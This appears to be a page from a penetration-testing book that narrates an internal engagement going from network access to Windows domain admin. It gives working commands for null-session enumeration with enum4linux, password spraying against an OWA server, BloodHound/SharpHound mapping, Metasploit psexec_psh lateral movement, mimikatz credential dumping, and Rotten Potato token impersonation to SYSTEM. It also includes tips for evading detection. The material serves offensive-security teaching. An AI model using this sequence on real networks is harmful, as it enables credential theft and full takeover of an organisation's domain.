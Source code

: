 # Domain Admin in 30 Minutes

This is an experience from a real internal domain pentest. Customer name has obviously been removed.

Goal here is going from network access only to domain admin \(DA\). This process takes about 30 min and was performed on a real pentest.

**A few key points:**

* This particular customer had removed regular users as local admins from workstations, so using responding and relaying didn't give us much here. This is after all a pretty old attack vector, although it has a very good success rate when regular users are local admins on their workstations.
* Certain amout of luck involved, but with such a huge domain and so many admins there will always be a way to DA
* Policy did not allow domain admins to remote into workstations.
* There was lockout on both admin and domain admin users after five tries.
* Important to not lock anybody out!
* Use HTTPS meterpreter shells to avoid getting busted
* Don't drop exe files on boxes, and if do clean up afterwards

### Null session on domain controller \(DC\)

Did a fast scan with Nessus, could have done other things to find a domain controller like nmap or other windows commands.

Tried to check it the DC supported null sessions using the following command:

```
enum4linux -a <ip address>
```

Domain controller gives us everything we need.

A list of every machine, every user, including admins and domain admins.

Bonus: every group membership and the password policy.

PW policy reveals there is no lockout on regular users and no requirement for complexity.

**It’s a party!**

### Password spraying

Every regular user has three letter usernames. Let’s make a list of all those. We don’t want to block out admin users \(they usually have lockout\). About 500 usernames on this test.

No complexity requirements = shit passwords. This test was performed during christmas 2017 so we make a list of relevant passwords and check it twice:

* Winter2017
* winter2017
* christmas2017
* Christmas2017

Now we need a place to try the passwords. Trying to authenticate with a lot of failures on SMB may be detected and this stuff is way easier to set up in Burp anyway. We load up a list of usernames and passwords with Burp Intruder and point it to the external OWA e-mail server that really wasn't that hard to guess.

`www.mail.customer.com`

Now we just run it for all 500 usernames with those four passwords for all of them. Spray and pray!

Takes about 5 seconds to filter for 200 OK in Burp and see where the pw is accepted. It's also possible to sort by size of the response to easily find the positives. Got a few regular users login credentials now. We can get busy! Remember there was no lockout on passwords, so we could have tried until somebody came running through the door of the tiny meeting room we were sitting in. Food for thought .... So we get the credentials of a user called `ank`_._

### Make a map of the domain with regular user privs

Now remember this user is not an admin but the way Active Directory works allows us to map out the whole domain.The syntax is:

`runas /netonly /FQDN\user cmd.exe`

So we ran the following command:

`runas /netonly /user:kunde.no \ank powershell`

Type in password `winter2017`when prompted. This query gets executed at the domain controller, and if successfull we can basically execute queries that are forwarded and executed on the DC. This is not remote code execution or any sort of vuln, just inherent functionality. We now want to make a map with Bloodhound, so if you haven't get that set up using the guide from this book. Then go ahead and load up SharpHound.ps1 and execute it. Depending on the size of the domain and activity, this should take some time. On busy daytime in a corporate office with a few thousand workstations and servers this took 30 minutes to complete.

```
Powershell -exec bypass
Import-module SharpHound.ps1
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData –SkipPing
```

Wait 20 minutes for a full map of the entire domain \(3000 hosts\). Now load it all up in bloodhound using the import feature, just put the entire ZIP file in there. Now BloodHound has a few default queries which are quite useful. Since we want domain admin we wanna see if its an easy way.

`Find shortest path to domain admin`

Now we notice a few things that we kind of knew already, but now realized. The number of domain admins is too damn high! Also, by cross referencing the output from the null session enumeration on the DC we see domain admin usernames that are highly susceptible as service accounts. A thing we didn't try before way later in the engagement was logging in as domain admins with the same username as password. Believe it or not, this actually worked for one of the domain admins, which is plain ridiculous. We could have reduced our effort getting DA from 30 minutes to 30 seconds, but of course we didn't wanna go wild password spraying domain admins as this would get us detected really fast and we could potentially block out domain admins preventing them from doing their jobs. That's not good!

### Pivoting around to find a box that has domain admin

So now that we have a proper map we need to try to get closer to a box with domain admin so we can capture that users privileges or credentials somehow. Because this customer had removed all kinds of local admin from workstation's the regular users we had access to basically has no good privs, except as Bloodhound so elegantly reveals one single box. WTF? Apparently in their rigoorous removal of local admins from workstations they had forgot this one WS which is still in use.  So before we can get to a box with domain admin we need an intermediary step we jump on to a workstation the user has access to that also has an admin logged on with psexec \(SMB share login\) and RDP \(remote desktop\). Because this box was accessible by every user in the domain it was just jumping on it. By some stroke of luck an admin user is also logged onto  this box. We use in Metasploit with the user's creds on that workstation:

```
exploit/windows/smb/psexec_psh
```

We now have shell as local admin on that workstation, and hence we can run mimikatz. We load and execute mimikatz straight into memory from metasploit:

```
load mimikatz
mimikatz_command -f sekurlsa::logonPasswords full
```

We now dump the admin user's password and hash in plaintext \(easily identifiable as all admin-users in this domain has "admin" in the username\). We check the privileges of this admin user and find a box with multiple domain admins on that this user also has access to. On to the final step!

### Privilege escalation from admin to domain admin

We shell in with `psexec_psh` to the box that has domain admins. We are not local admin on this box, so we can't do mimikatz. Luckily, there are other ways to get privileges. Rotten Potato is a privilege escalation technique that works well for this kind of scenario. Using this technique, we can elevate our privilege on a Windows workstation from the lowest levels to “NT AUTHORITY\SYSTEM” – the highest level of privilege available on a Windows machine. We do the following in our Meterpreter:

```
getuid
getprivs
upload /root/just_dce_64.exe c:\\temp\\rot.exe
load incognito
list_tokens -u
execute -Hc -f ./rot.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
getprivs
```

We are now SYSTEM on this box and can run mimikatz do dump the plaintext creds of whatever domain admin is logged on the box. Alternatively, we can use rotten potato to impersonate a domain admin. Just replace the username of the impersonate\_token command from above with the username you want to impersonate. Wild!

Congrats you are now domain admin!

